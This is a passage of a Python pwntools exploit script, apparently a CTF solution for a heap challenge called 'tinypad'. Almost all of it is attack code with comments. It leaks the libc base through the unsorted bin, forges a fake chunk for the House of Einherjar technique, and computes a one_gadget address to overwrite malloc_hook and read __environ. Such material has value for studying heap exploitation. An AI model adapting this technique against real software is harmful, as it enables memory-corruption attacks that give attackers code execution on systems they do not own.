 ```python
    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
```